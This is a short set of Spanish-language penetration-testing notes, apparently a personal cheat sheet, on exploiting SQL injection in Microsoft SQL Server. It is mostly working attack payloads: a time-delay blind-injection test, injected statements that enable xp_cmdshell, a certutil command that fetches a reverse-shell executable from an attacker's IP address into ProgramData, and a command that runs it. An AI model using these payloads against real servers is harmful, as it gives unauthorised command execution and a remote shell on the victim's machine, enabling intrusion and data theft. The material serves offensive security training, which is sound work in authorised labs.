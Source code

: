 
## DESCRIPTION

Detectamos una inyección SQL y comprobamos si es posible ejecutar comandos.

En el caso de qu sea una BlindSQL podemos comprobarlo con un retraso de tiempo: `' WAITFOR DELAY '0:0:10'--`

#### Mas información
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

## EXPLOITATION

### OPTION 1: EXECUTING COMMAND WITH XP_CMDEXE

**!!NOTA IMPORTANTE!!** 

ES MUY IMPORANTE HABILITAR ANTE EL xp_cmdshell PARA QUE PODAMOS EJECUTAR COMANDOS

```
' EXEC sp_configure 'show advanced options',1 -- -
' RECONFIGURE -- -
' EXEC sp_configure 'xp_cmdshell',1 -- -
' RECONFIGURE -- -
```

1. Levantamos un servidor en nuestro equipo y comprobamos que ser realiza la petición

```
' exec xp_cmdshell 'certutil -urlcache -f http://192.168.119.122:8000/shell.exe C://programdata/shell.exe' -- 
```

![[Pasted image 20230401203637.png]]
Creamos la reverse shell y la descargamos.

**!!NOTA IMPORTANTE!!** 
Tiene que ser en un directorio donde tengamos permisos por ejemplo PROGRAMDATA

2. Nos ponemos a la escucha en nuestra maquina

3. La ejecutamos directamente:

```
' exec xp_cmdshell 'C://programdata/shell.exe' --  
```



## MACHINES

* 

